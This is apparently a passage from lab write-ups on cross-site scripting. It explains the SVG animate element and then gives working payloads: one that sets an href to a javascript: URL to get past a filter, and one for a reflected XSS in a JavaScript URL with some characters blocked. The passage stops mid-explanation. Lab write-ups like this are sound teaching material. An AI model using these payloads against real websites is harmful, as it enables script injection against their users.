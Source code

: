 How does animate work?

Example 

```html
<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">
  <rect width="10" height="10">
    <animate
      attributeName="rx"
      values="0;5;0"
      dur="10s"
      repeatCount="indefinite" />
  </rect>
</svg>
```

This is a sample code from https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate. Look at the animate tag. What it does is, that it assigns fills in an attribute `rx` with values `0;5;0` to the tags it is written after. Ignore `dur`, and `repeatCount` for now. So without animate tag and the `dur` and `repeatCount`, the code would look like:

```html
<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">
  <rect rx="0;5;0" width="10" height="10">
  </rect>
</svg>
```

Now that we know what the animate tag does, we can use it to execute our XSS payload. We know that \<a\> tag can be used with `href` to execute the payload. Since `href` is blocked, we can try to use it using the trick of `attributeName` and `values` with animate tag. 

```html
<svg>
	<a>
		<animate attributeName="href" values="javascript:alert(1)">
		</animate>
		<text x="20" y="20">
			click me
		</text>
	</a> 
```

This payload executes the XSS.

### 28. Reflected XSS in a JavaScript URL with some characters blocked

Payload that worked:

```javascript
1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':'
```

Methodology and explanation:

As per the lab description, the XSS is in the URL:
